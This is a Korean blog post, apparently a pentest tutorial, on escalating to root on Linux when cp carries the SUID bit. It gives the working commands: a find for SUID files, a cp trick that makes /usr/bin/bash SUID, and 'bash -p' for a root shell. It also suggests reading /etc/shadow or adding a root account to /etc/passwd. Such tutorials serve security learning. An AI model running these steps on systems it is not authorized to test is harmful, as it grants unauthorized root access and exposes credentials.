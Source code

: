 ```yaml
---
layout: post
title: SUID를 이용한 권한 상승
subtitle: cp 명령어를 사용해 권한 상승 하기
category: knowledge
thumbnail-img: /assets/img/avatar-icon.png
tags: [SUID, cp, gtfobins]
author: Hong
---
```

SUID의 권한을 가진 파일들 중 cp가 있는 경우, 이를 이용하여 권한 상승하는 방법에 대한 포스팅.

# SUID의 탐색
일반 유저의 쉘을 획득하는데 성공했다면 권한 상승을 위해 SUID를 탐색해본다.
```
$ find / -perm -u=s -type f 2>/dev/null
/snap/snapd/16292/usr/lib/snapd/snap-confine
/snap/core20/1623/usr/bin/chfn
/snap/core20/1623/usr/bin/chsh
/snap/core20/1623/usr/bin/gpasswd
/snap/core20/1623/usr/bin/mount
/snap/core20/1623/usr/bin/newgrp
/snap/core20/1623/usr/bin/passwd
/snap/core20/1623/usr/bin/su
/snap/core20/1623/usr/bin/sudo
/snap/core20/1623/usr/bin/umount
/snap/core20/1623/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1623/usr/lib/openssh/ssh-keysign
/snap/core18/2560/bin/mount
/snap/core18/2560/bin/ping
/snap/core18/2560/bin/su
/snap/core18/2560/bin/umount
/snap/core18/2560/usr/bin/chfn
/snap/core18/2560/usr/bin/chsh
/snap/core18/2560/usr/bin/gpasswd
/snap/core18/2560/usr/bin/newgrp
/snap/core18/2560/usr/bin/passwd
/snap/core18/2560/usr/bin/sudo
/snap/core18/2560/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2560/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/fusermount3
/usr/bin/passwd
/usr/bin/cp
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
```
항상 보던것들 사이로 익숙하지 않은 명령어가 보인다.

cp가 SUID로 설정되어있다! 바로 사용해보자.
# GTFObins
참고하기 위한 페이지로 [GTFObins의 SUID 부분](https://gtfobins.github.io/gtfobins/cp/#suid)을 확인한다.

여기에 따르면 cp로 할 수 있는 몇가지 강력한 기능들이 있는데 무슨 파일이든 cp를 사용하여 읽고 쓸 수 있는 것과 파일에 cp와 똑같은 권한을 부여하는 것이다.

경우를 나누어서 활용 방안을 생각해보자.

1. cp를 사용해서 /etc/shadow 파일이나 cron같은 민감한 파일들의 내용을 확인한다.
2. cp를 사용해서 /etc/passwd 파일을 수정한다. `openssl passwd <비밀번호>`로 해쉬를 만든후 파일에 추가해서 root권한의 유저를 생성할 수 있다. `pwned:비밀번호해쉬:0:0:root:/root:/bin/bash`
3. 실행 파일에 SUID 권한을 부여해서 루트 권한으로 실행한다.

모든 경우가 치명적이지만 설정에 따라서 가능한 경우도 불가능한 경우도 있다.

이 포스팅에서는 3번을 예시로 알아보겠다.

```sh
$ whoami
nobunaga
```
현재는 nobunaga라는 유저로 되어있는 상태.

여기서 cp를 이용해 bash나 sh쉘도 SUID로 만들어준다. 

변경 전.
```bash
$ ls -la /usr/bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /usr/bin/bash
```

변경 후. bash쉘을 사용중이면 잘 안될 수 있으니 파이썬으로 bash 쉘 소환중이라면 일단 꺼야 함.
```sh
$ /usr/bin/cp --attributes-only --preserve=all /usr/bin/cp /usr/bin/bash
$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Feb  7  2022 /usr/bin/bash
```
위와 같이 bash쉘도 SUID가 된 것을 확인 할 수 있다.

bash쉘의 커맨드를 이용하여 소유자 권한으로 실행한다.
```bash
$ bash -p
whoami
root
```
이렇게 해서 SUID를 이용해 권한 상승을 하는 방법을 알아보았다.

SUID 리스트에 cp가 있다면 활용해보자.